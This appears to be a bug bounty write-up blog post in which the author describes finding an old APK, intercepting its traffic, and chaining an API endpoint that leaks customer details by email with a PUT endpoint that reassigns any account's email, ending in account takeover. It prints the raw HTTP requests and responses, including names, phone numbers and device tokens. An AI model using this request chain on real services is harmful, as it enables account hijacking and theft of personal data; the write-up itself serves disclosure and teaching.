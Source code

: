 ```yaml
---
description: How I found a critical bug in API...
title: API Misconfiguration lead to Full ATO
date: 2024-09-02 08:00:00 -0600                           # Change the date to match completion date
categories: [Hack]                   # Change Templates to Writeup
tags: [hacking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image:                # Add infocard image here for post preview image
---
```


Hey ! Today I’m going to share with you an amazing found I made on a big company chaining multiple bugs and misconfigurations on their API :)

## Let's go !

![enter image description here](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMGgxdmJpdTBiMHlxbnFtcW1pbzF1ajVwNWx2dWUzbGtyOGhqaDVrciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/CjmvTCZf2U3p09Cn0h/giphy.gif)

First of all, when I recon a target, I like looking for lost apks on obscure websites on the internet

So I went to my favorite apk websites :  [https://apkcombo.com](https://apkcombo.com),  [https://apkmonk.com](https://apkmonk.com)  and  [https://apkpure.com](https://apkpure.com)

![enter image description here](https://apkpure.net/static/imgs/website_screen_v1.jpg)


After some research, I found an interesting APK :  myapp.redacted last updated on 2016

So I downloaded the APK, launched Nox and BurpSuite and started hacking

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExbW5qdGg4cG9hcGxubWc2dDdsMGdsaWlmbmF5ZTNsOHRmcWFkcnp0ciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/YQitE4YNQNahy/giphy.gif)

## Browsing the APK

I browsed through the APK for about ten minutes and it literally seemed broken. It used the api “[http://appli.redacted.com](http://appli.redacted.com)”

Using BurpSuite Mapping, I found a very interesting endpoint: /fr/v2.0/Clients/%2520/ 👀👀

And after a few tries, I understood that I had to add the user’s email, so I made the request :

    GET /fr/v2.0/Clients/%2520/victim@gmail.com HTTP/1.1 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 595 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264945","lat":0,"long":0,"nom":"Sakayanagi","pays":"FR","code_postal":"86100","prenom":"Arisu","email":"victim@gmail.com","newsletter":1,"date_creation":"2023-11-20T17:22:20","mobile":"0689123912","statut":true,"type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"0000001525","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46C61A4B-D390-5BBD-8C20-BF2702327716","token":"254EF7C844BF25B845D7B1D49DD22753407AC6D989028B589931935FC2D352CB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

**FIRST BUG : PII Leakage via API Misconfiguration**

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOHdneHJzZHprZWZxaXdsaXo0OTNjODczdXh6ZW01cWxjcmxmcWpvMyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kdQuvu0LtCEjxYgTcS/giphy.gif)

## No done yet... !

So from that moment I decided to go down the rabbit hole to find other vulnerabilities

And after some research I found another endpoint that used a PUT method :

    PUT /fr/v2.0/Clients/8000040264945 HTTP/1.1 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 401 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1 
    
    type=1&email=victim@gmail.com&device=e91480e2a8eb83af&android=1&nom=&prenom=&cp=86100&mobile=&pays=&token=dZJKFETVSRWwzz4olPqvF0%3AAPA91bEZA4Mvt5AttKlMRzfQ70nT-Hv7BHBlwix8WI9taP91n-_XEnMHnegOVQfNn0No6XDEuvPn_-rP7MufTLLta3ZilKYVjP0-rp9X_krK0yTLTgbasPYSP5s9kQKkG_PCntlQmkma&code_identite=&mag_prefere=0000001525&newsletter=1&alerte_mag=1&alerte_cata=1&alerte_promo=1&lat=&long=

This request was logged when I tried to modify my VIP card details on the APK (8000040264945)

BUTTT, and this is the whole point of this chaining, I could obtain the VIP card code of any user from their email with the previous request. I think you understand where I’m going with this… 😈

I quickly created another account on the platform, I retrieved my VIP code with the first request then in the second request I replaced my email address with  [attacker@gmail.com](mailto:attacker@gmail.com)

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache 
    X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 582 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264956","lat":0,"long":0,"nom":"DUJARDIN","pays":"FR","code_postal":"75002","prenom":"Victim","email":"attacker@gmail.com","newsletter":1,"date_creation":"2023-12-10T10:26:27","mobile":"+33655421789","statut":"actif","type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46B61A3B-D390-4CCD-8C20-BF2701317816","token":"254EF7C844BF78B845D7B1D09DD22753407AC6D459028B578731935FC2D352BB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

![enter image description here](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExdDI2ZXQ0ZGM5eWRpOWJnaWxtcThmajI0ZWh1cGRpdm5nOHpmN3F3OCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYtVHSxngR3lC/giphy.gif)


## Achieve Full 0-click ATO

After that, I created an account on the platform with  [attacker@gmail.com](mailto:attacker@gmail.com), I checked my email and when I connected I came across my previous account (the one I replaced email with the PUT request) !! 🎉🎉

And that’s the end of the story on how my extroardinary chaining allowed me to achieve an account takeover.

## Tips

1 - Always look for APKs belong to the company
2 - Privilegate old/lost APKs
